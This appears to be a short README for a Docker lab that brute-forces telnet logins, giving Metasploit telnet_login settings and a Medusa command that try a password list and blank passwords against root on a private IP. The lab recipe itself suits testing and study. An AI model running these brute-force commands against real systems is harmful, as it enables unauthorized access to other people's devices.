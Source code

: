 
### Generel
```docker-compose up```

### Metasploit
```docker-compose run metasploit bash```

```
msfconsole
use auxiliary/scanner/telnet/telnet_login
set BLANK_PASSWORDS true
set PASS_FILE /tmp/config/az/1-5.txt
set USERNAME root
set RHOSTS 10.10.10.10
run
```

### Medusa
  * https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/

```docker-compose run metasploit medusa```

```
apt-get update
apt-get install wget build-essentials medusa
medusa -u root -P /tmp/config/az/1-5.txt -h 10.10.10.10 -M telnet
```
